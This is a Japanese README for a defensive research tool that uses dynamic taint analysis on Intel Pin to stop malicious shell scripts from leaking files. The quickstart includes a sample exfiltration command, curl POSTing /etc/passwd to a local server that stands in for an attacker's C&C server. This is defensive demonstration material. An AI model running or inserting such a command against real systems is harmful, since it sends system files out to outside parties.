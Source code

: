 # 動的テイント解析を用いた悪性シェルスクリプトによる情報漏洩の阻止

dta-sh は動的テイント解析を用いて悪性シェルスクリプトによる情報漏洩を阻止するためのツール。
動的テイント解析には[libdft64](https://github.com/AngoraFuzzer/libdft64)を用いる。

## クイックスタート
`/etc/passwd`を外部に漏洩させるシェルスクリプトスクリプトの漏洩を阻止するデモ。
このシェルスクリプトはcurlコマンドを使用してPOSTリクエストで外部にファイルを送信する。
`src/sendfile.sh`にある。
```bash
# 情報漏洩を行うコマンド
curl -X POST -F f=@"/etc/passwd" localhost:9999
```
ファイルの送信先（漏洩先）は自分自身とする。
本来localhost:9999の部分は攻撃者が用意するC&Cサーバのドメイン名であるが、漏洩させるファイルを自身で受け取るためここではlocalhostとなる。

### デモの実行方法
環境は Ubuntu 20.04 LST or 22.04 LTSで動作確認済み（WSL2でも動く）。

```bash
# 依存関係をインストール（初回のみ）
./setup.sh

# 環境変数(PIN_ROOT)を設定
source ./env.init

# POSTリクエストを受け取るHTTPサーバを起動
python3 server.py &

# dta-shをビルド
cd src
make

# デモを実行
make test
```
ログがたくさん出て、最終的に`[pid 93112] alert           : !!!! ABORT !!!!    Data leak detected`と出力されたらこのデモは成功。
うまく行かない場合は[FAQ](#FAQ)を参照。

### dta-shを使わない場合
作成したツール dta-sh を使わない場合どうなるか確認。
単に`sendfile.sh`を実行する。
```bash
./sendfile.sh
```
先程サーバを起動したターミナルに戻ると、赤文字の`/etc/passwd`の内容が出力されているはず。
これはサーバが受け取ったデータで、POSTリクエストにより`/etc/passwd`の内容が漏洩した。

## 各ディレクトリ・ファイルの説明
```
.
├── env.init    # 環境変数(PIN_ROOT)の設定
├── libdft64    # 動的テイント解析ライブラリ
├── pin-3.20-98437-gf02b61307-gcc-linux         # libdft64の依存ライブラリ
├── pin-3.20-98437-gf02b61307-gcc-linux.tar.gz  # ↑の圧縮ファイル
├── README.md   # このファイル
├── server.py   # POSTリクエストを受け取るHTTPサーバ
├── setup.sh    # セットアップファイル
└── src # ソースコード
    ├── dta-sh.cpp      # ツールの本体
    ├── dta-sh.h        # ヘッダファイル
    ├── Makefile        # ビルドスクリプト
    ├── makefile.rules  # ビルドスクリプト
    └── sendfile.sh     # 情報漏洩を行うシェルスクリプト
```

## FAQ
エラーに関するものは起きたエラーがそのままタイトル。

### Makefile:18: /Config/makefile.default.rules: No such file or directory
[`PIN_ROOT`](#PIN_ROOTとは)が設定されておらず、PinのMakefileが見つからない。
Pinのディレクトリを環境変数経由で教えてやる。

```bash
source env.init
```

### dta-sh.cpp:58:15: error: unused variable 'sockfd' [-Werror=unused-variable]
Pintoolのコンパイルに`-Werror`が有効なため、WarningがすべてErrorとして扱われる。
Pintoolのコンパイルオプションはpin-3.20-98437-gf02b61307-gcc-linux/source/tools/Config/makefile.unix.configで定義されているため、`-Werror`を削除することでコンパイルが通る（WarningはWarningとして扱われる）。

```diff
- TOOL_CXXFLAGS_NOOPT := -Wall -Werror -Wno-unknown-pragmas -DPIN_CRT=1
+ TOOL_CXXFLAGS_NOOPT := -Wall -Wno-unknown-pragmas -DPIN_CRT=1
```

### likely()/unlikely()
条件分岐を最適化するためにコンパイラに与えるヒント。
libdft64/src/branch_pred.hで定義されている。

ref. https://stackoverflow.com/questions/109710/how-do-the-likely-unlikely-macros-in-the-linux-kernel-work-and-what-is-their-ben

### curl: (7) Failed to connect to localhost port 9999 after 468 ms: Connection refused
ローカルサーバが立っていない。
サーバを立ててやる。`&`はバックグラウンド実行の意味（Bashの機能）。

```
python3 server.py &
```

### PIN_ROOTとは
libdft64にPinのパスを教えるための環境変数。
make時、libdft64はこの変数を読んでpin.Hなりの場所を知る。

ref. https://software.intel.com/sites/landingpage/pintool/docs/98650/Pin/doc/html/index.html#UsefulVariables

### なぜMakefileとmakefile.rulesの2つがあるのか
Makefileは設定（ビルド用の変数`CXX := g++`など）を読み込む、ビルドレシピを読み込むファイル、
makefile.rulesはビルドするlibdft toolを定義するファイル。
Makefileは編集せず、makefile.rulesにのみビルドするlibdft toolを定義する。
変数などが隠されていて分かりにくい部分もあるが、libdft64/toolsのビルド方法をそのまま採用した。

### libdft tool（dta-sh.cppなど）のビルドレシピの場所
libdft toolを作る場合は、明示的にツールのビルドレシピを定義しなくてよい。
makefile.rulesの`TOOL_ROOT`にビルドするツールのファイル名（の拡張子を取ったもの）を定義するだけ。
詳細なビルドレシピは別の場所で定義されていて隠されている。
例えば、dta-sh.cppというlibdft toolをビルドするためには`TOOL_ROOT := dta-sh`と定義する。
するとmakeを実行するだけでobj-intel64/dta-sh.soというファイルが生成される。

### コールバック関数のTHREADIDとは
本ツールでは使わない。
THREADIDはPinのスレッドが使用するデータの配列へのインデックス。
ここでのスレッドはWinAPIのスレッドやPthreadsのスレッドではなく、Pinが管理するスレッド。

> Pin also provides an analysis routine argument (IARG_THREAD_ID), which passes a Pin-specific thread ID for the calling thread. This ID is different from the O/S system thread ID, and is a small number starting at 0, which can be used as an index to an array of thread data or as the locking value to Pin user locks. See the example Instrumenting Threaded Applications for more information.

ref. https://software.intel.com/sites/landingpage/pintool/docs/98650/Pin/doc/html/index.html#MT
